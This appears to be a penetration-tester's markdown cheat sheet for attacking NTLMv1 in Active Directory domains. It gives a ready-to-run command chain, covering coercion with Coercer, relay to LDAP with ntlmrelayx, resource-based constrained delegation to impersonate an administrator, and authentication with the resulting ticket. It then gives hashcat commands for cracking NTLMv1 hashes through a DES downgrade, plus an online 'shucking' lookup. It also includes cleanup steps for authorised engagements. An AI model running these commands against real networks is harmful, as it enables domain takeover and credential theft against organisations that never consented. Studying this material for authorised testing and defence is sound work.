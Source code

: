 # NTLMv1

## Relaying NTLMv1

### LDAP

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- Target Domain Controller is not Windows Server 2025 (Default LDAP Signing and Binding)

#### LDAP Signing and Channel Binding
- LDAP Signing is enforced: Relay -> ```ldaps://```
- LDAP Signing is not enforced but channel binding is: Relay -> ```ldap://``` (Impacket uses StartTLS)
- **Note**: NTLMv1 does not support channel binding

#### Optional Requirements (Depends on attack vector)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```
sudo impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```

#### Cleanup

- The system we coerce from has the ```msDs-AllowedToActOnBehalfOfOtherIdentity``` attribute modified to the created machine account. Ensure this is removed on engagements.
- Ensure the created machine account is removed at the end of the engagement.

```powershell
# Run in elevated PowerShell

# Clear msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-ADComputer -Identity "DC01$" | ForEach-Object { Set-ADObject -Identity $_.DistinguishedName -Clear "msDS-AllowedToActOnBehalfOfOtherIdentity" }

# Remove Created Computer Account
Remove-ADComputer -Identity "WSW01$"
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```